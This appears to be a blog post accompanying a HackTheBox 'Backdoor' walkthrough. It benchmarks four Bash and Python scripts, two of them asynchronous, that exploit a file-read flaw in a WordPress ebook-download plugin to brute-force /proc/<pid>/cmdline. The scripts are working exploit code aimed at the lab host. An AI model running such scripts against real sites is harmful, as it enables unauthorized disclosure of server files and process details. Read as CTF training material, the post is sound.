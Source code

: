 

# Parallelizing in Bash and Python

#htb-backdoor #ctf #hackthebox #python #bash #bash-async #async
#python-async #youtube #programming #bruteforce Apr 24, 2022






-   [HTB Backdoor Walkthrough](/htb-backdoor.md)
-   [Parallelizing Bash and Python](#)




![](/img/backdoor-scripts-cover.png)

To solve the Backdoor box from HackTheBox, I used a Bash script to loop
over 2000 pids using a directory traversal / local file read
vulnerability and pull their command lines. I wanted to play with
parallelizing that attack, both in Bash and Python. I'll share the
results in this post / YouTube video.

## Building Four Scripts

[This video](https://www.youtube.com/watch?v=rn3R92y5Wlg) gives a quick
overview of the script I used in my [original
solution](/htb-backdoor.md#bash-script), as well as shows
re-writes for three additional versions:


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=rn3R92y5Wlg){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

## Benchmarks

In the video, I tried each script for 2000 PIDs. After the video, I
wanted to look at how each scaled, especially the async ones. The
results were interesting:

                 2000   10000   20000   50000
  -------------- ------ ------- ------- ---------
  Bash           6:30   \-      \-      2:40:58
  Bash async     0:05   0:45    1:24    5:24
  Python         6:07   \-      \-      2:34:37
  Python async   0:04   0:15    0:26    1:08

While the async scripts were very similar for small brute forces
(2,000), even going up to 10,000 showed a significant gap, as the Python
is much more efficient.

Another thing I noticed is that while requests came back out of order
for both async attempts, the Bash ones were way more out of order.

My working theory is that Bash just chucks out all the requests and
leaves the OS to deal with it, where as Python is much better at scaling
the requests and sending more when there's bandwidth to do so, and
slowing down when things are contested. But that's just a theory.

## Scripts

### Bash Sync



    #!/bin/bash

    for i in $(seq 1 2001); do

        path="/proc/${i}/cmdline"
        skip_start=$(( 3 * ${#path} + 1))
        skip_end=32

        res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path} -o- | tr '\000' ' ')
        output=$(echo $res | cut -c ${skip_start}- | rev | cut -c ${skip_end}- | rev)
        if [[ -n "$output" ]]; then
            echo "${i}: ${output}"
        fi

    done



### Bash Async



    #!/bin/bash

    check_pid() {

        path="/proc/${1}/cmdline"
        skip_start=$(( 3 * ${#path} + 1))
        skip_end=32

        res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path} -o- | tr '\000' ' ')
        output=$(echo $res | cut -c ${skip_start}- | rev | cut -c ${skip_end}- | rev)
        if [[ -n "$output" ]]; then
            echo "${i}: ${output}"
        fi
    }

    for i in $(seq 1 2001); do
        check_pid "$i" &
        pid[${i}]=$!
    done

    for pid in ${pids[*]}; do
        wait $pid
    done



### Python Sync



    #!/usr/bin/env python3

    import requests

    for i in range(1, 2001):

        resp = requests.get(f"http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/{i}/cmdline")
        start = 3 * (14 + len(str(i)))
        end = -32
        cmdline = resp.text[start:end].replace('\x00', ' ')
        if cmdline:
            print(f"{i:5}: {cmdline}")



### Python Async



    #!/usr/bin/env python3

    import aiohttp
    import asyncio

    async def get_process(session, pid):
        url = f"http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/{pid}/cmdline"
        async with session.get(url) as resp:
            start = 3 * (14 + len(str(pid)))
            end = -32
            cmdline = (await resp.text())[start:end].replace('\x00', ' ')
            if cmdline:
                print(f"{pid:5}: {cmdline}")


    async def main():
        async with aiohttp.ClientSession() as session:
            tasks = []
            for i in range(1, 2001):
                tasks.append(asyncio.ensure_future(get_process(session, i)))

            await asyncio.gather(*tasks)

    asyncio.run(main())




[« HTB Backdoor Walkthrough](/htb-backdoor.md)






